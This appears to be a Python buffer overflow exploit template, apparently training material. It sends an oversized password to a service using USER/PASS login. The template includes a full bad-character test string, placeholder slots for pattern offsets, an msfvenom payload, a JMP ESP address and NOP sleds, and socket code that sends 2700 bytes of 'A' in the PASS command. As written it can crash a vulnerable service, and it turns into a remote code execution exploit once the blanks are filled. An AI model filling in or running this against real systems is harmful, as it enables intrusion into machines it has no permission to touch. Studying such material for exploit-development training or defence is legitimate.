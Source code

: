 ```
# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
chars += "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
chars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
chars += "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
chars += "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

#
# PATTERN
# Paste pattern_create command next line and pattern beneath.
# 

#
# PAYLOAD
# Paste msfvenom command next line, payload info beneath, then payload.
# 

#################### Exploit
# Target crashes at "A" * 2700____________________ (# bytes: qty of char "A")
# Badchars: ______________________________________ (\xXX hex string)
# Pattern-generated EIP: _________________________ (4 bytes in hex)
# Specific offset (splat) is _____________________ (# bytes)
# Usable JMP ESP at ______________________________ (little-endian hex addr)

sploit  = ""
sploit += ""           # protocol reqts
sploit += ""           # badchar test
sploit += ""           # pattern_create
sploit += "A" * 2700   # splat
sploit += ""           # eip
sploit += ""           # nopsled
sploit += ""           # payload
sploit += ""           # nopsled

#################### Communication

# Standup
printinfo(["Creating socket ..."])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
printinfo(["Connecting to", ip, "on port", port, "..."])
connect = s.connect((ip, port))
s.recv(1024)

# Interact
printinfo(["Sending username \"test\" ..."])
s.send('USER test\r\n')
s.recv(1024)
printinfo(["Sending password of", len(sploit), "bytes..."])
s.send('PASS ' + sploit + '\r\n')

# Result
printresult(["Exploit sent. Attack complete."])
```